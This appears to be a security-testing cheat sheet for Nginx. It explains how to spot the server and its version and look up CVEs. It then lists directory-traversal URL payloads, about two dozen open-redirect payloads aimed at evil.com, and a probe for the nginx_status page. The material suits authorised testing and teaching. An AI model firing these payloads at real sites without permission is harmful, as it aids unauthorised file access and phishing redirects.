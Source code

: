 # Nginx Common Bugs

## Introduction
What would you do if you came across a website that uses Nginx?

## How to Detect
Usually in the HTTP response there is a header like this `Server: nginx`

1. Find the related CVE by checking nginx version
* How to find the nginx version

By checking the response header or using 404 page, sometimes the version is printed there. If you found outdated nginx version, find the CVEs at [CVE Details](https://www.cvedetails.com/vulnerability-list/vendor_id-315/product_id-101578/F5-Nginx.html)

2. Directory traversal
```
https://example.com/folder1../folder1/folder2/static/main.css
https://example.com/folder1../%s/folder2/static/main.css
https://example.com/folder1/folder2../folder2/static/main.css
https://example.com/folder1/folder2../%s/static/main.css
https://example.com/folder1/folder2/static../static/main.css
https://example.com/folder1/folder2/static../%s/main.css
```

3. Open redirect
This is because of misconfiguration
```
https://example.com/%5cevil.com
https://example.com////\;@evil.com
https://example.com////evil.com
https://example.com///evil.com
https://example.com///evil.com/%2f%2e%2e
https://example.com///evil.com@//
https://example.com///{{RootURL}}evil.com/%2f%2e%2e
https://example.com//;@evil.com
https://example.com//\/evil.com/
https://example.com//\@evil.com
https://example.com//\evil.com
https://example.com//\tevil.com/
https://example.com//evil.com/%2F..
https://example.com//evil.com//
https://example.com//evil.com@//
https://example.com//evil.com\tevil.com/
https://example.com//https://evil.com@//
https://example.com/<>//evil.com
https://example.com/\/\/evil.com/
https://example.com/\/evil.com
https://example.com/\evil.com
https://example.com/evil.com
https://example.com/evil.com/%2F..
https://example.com/evil.com/
https://example.com/evil.com/..;/css
https://example.com/https:evil.com
```

4. Nginx status page
```
https://example.com/nginx_status
```

## References
- [Detectify](https://blog.detectify.com/2020/11/10/common-nginx-misconfigurations/)